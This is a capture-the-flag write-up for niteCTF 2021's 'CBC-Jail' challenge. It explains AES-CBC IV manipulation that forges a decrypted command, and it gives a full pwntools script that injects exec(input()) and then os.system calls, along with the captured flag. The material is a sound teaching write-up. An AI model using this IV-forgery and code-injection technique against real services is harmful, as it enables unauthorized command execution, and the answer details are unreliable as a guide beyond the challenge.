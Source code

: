 ```yaml
---
author: xtylez
categories: ctf
date: 2021-12-13 20:00:00 +0100
layout: post
tags: [xtylez, crypto]
title: NiteCTF 2021 - CBC-Jail [Crypto/Pwn]
---
```


```
Solves: 34
Type:  	crypto/pwn
Difficulty: Easy
Author: Pun1sher + Arkaja

crack() the jail to get the flag. But make sure you get your crypto right.
```

## Introduction ##

This was a very fun challenge to solve from niteCTF which involved knowledge of how AES-CBC worked and how to bypass a blacklist made in python which didn't filter all the interesting functions we could `exec()`.

## Code analysis ##

As we open the file, we can see that we have three functions, `encrypt(msg), decrypt(msg,iv), weirdify(inp)`. which are all based on `AES-CBC 128bit` mode.

We can also see that the KEY and IV are randomly generated each time we open the connection to the server.

Also, we are given a "hint" by the challenge creator:

```python
print('Welcome to Prison.')
print('A mad cryptographer thought it would be cool to mess your shell up.')
print('Lets see if you can "crack()" your way out of here')
print("As a gift we'll give you a sample encryption")
print(encrypt(b'trapped_forever'))
```

Where `encrypt()` does the following:

```python
def encrypt(msg):
    msg = pad(msg,16)
    cipher = AES.new(KEY,AES.MODE_CBC,IV)
    encrypted = cipher.encrypt(msg)
    encrypted = encrypted.hex()
    msg = IV.hex() + encrypted
    return msg
```

Looks like the encryption is being done correctly and that we have the IV and Ciphertext, as we have the source we also have the Plaintext.

Now lets take a look at the `weirdify()` function:

```python
def weirdify(inp):
    iv = bytes.fromhex(inp[:32])
    msg = bytes.fromhex(inp[32:])
    command = decrypt(msg,iv)
    return command
```

Looks like we can manipulate the IV that is being used for decrypting the msg as it's being read from our input.

First I'll append two images so we can understand how AES-CBC works and why the IV is so important here.

![image alt](https://upload.wikimedia.org/wikipedia/commons/d/d3/Cbc_encryption.png "AES-CBC Encrypt")
![image alt](https://upload.wikimedia.org/wikipedia/commons/6/66/Cbc_decryption.png "AES-CBC Decrypt")

As we can see, the Plaintext is first XOR'ed with the IV and then ciphered with the KEY. Same for decryption, first we decrypt and then we XOR.

As we can manipulate the IV, we could try to modify it so when we send the same ciphertext which we already know it's plaintext, XOR's to our desired plaintext.

It can be done because `0 == A XOR A` and because `0 XOR A = A`. It's reversible operation.

So our objective will be to get a new IV like `NEWIV = PT ^ OURPT ^ OLDIV`.

## Exploit ##

First of all we get our input from IO, for that we'll use `pwntools`.

Then we will create our `transform()` function which will generate the desired decrypted plaintext.

```python
def transform(newmsg,iv):
	changeit = newmsg
	for i in range(16-len(newmsg)):
		changeit += b"\t"
	oldmsg = b"trapped_forever\t"
	oldxor = xor(oldmsg,changeit)
	newiv = xor(oldxor,iv[:16])
	return newiv
```

After we have this, we only have to think on how to bypass the filter, in our case we just added an `exec(input())` which bypassed the filter. Now we could just automate everything and it would end up like this:

```python
from pwn import *
from Crypto.Cipher import AES
from Crypto.Util.Padding import pad, unpad

def transform(newmsg,iv):
	changeit = newmsg
	for i in range(16-len(newmsg)):
		changeit += b"\t"
	oldmsg = b"trapped_forever\t"
	oldxor = xor(oldmsg,changeit)
	newiv = xor(oldxor,iv[:16])
	return newiv

LOCAL = False
IP = '34.147.79.216'
PORT = 1337

if LOCAL:
	IP = "127.0.0.1"
	PORT = 9001
	io = remote(IP,PORT)
else:
	io = remote(IP,PORT)
    
for i in range(5):
	print(io.recvline())
    
encrypted = io.recvline().decode().replace("\n","")
enctext = bytes.fromhex(encrypted[32:])
IV = bytes.fromhex(encrypted[:32])

print(f"IV: {IV}")
print(f"ENC: {enctext}")

io.sendline(transform(b"exec(input())",IV).hex() +enctext.hex())
io.sendline(b"os.system('ls')")
io.interactive()
```

And the result would be:

```
>>flag.txt
nite{Th3__gr3at_esc4p3}
server.py
```

[Challenge source code](https://github.com/eskardinha/CTF-Writeups/tree/master/2021/niteCTF/CBC-Jail)

